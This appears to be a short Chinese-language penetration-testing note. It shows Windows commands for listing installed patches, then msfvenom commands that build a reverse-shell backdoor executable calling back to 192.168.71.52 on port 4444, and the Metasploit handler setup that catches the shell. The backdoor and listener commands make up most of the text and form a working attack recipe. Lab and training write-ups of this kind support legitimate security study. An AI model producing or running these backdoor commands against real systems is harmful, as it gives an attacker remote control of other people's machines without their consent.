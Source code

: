 - 使用命令查看安装的补丁

```cmd
# 方法一
systeminfo
# 方法二
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

![image-20241028181405588](./assets/image-20241028181405588.png)

- 使用`msf`生成后门反弹shell

```cmd
# 32位
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.71.52 LPORT=4444 --arch x86 -f exe -o backdoor.exe
# 64位
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.71.52 LPORT=4444 -f exe -o backdoor.exe

msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp -->32位
set PAYLOAD windows/x64/shell_reverse_tcp -->64位
set LHOST 192.168.71.52
set LPORT 4444
exploit
```

<img src="./assets/image-20241028162554377.png" alt="image-20241028162554377" style="zoom:33%;" />
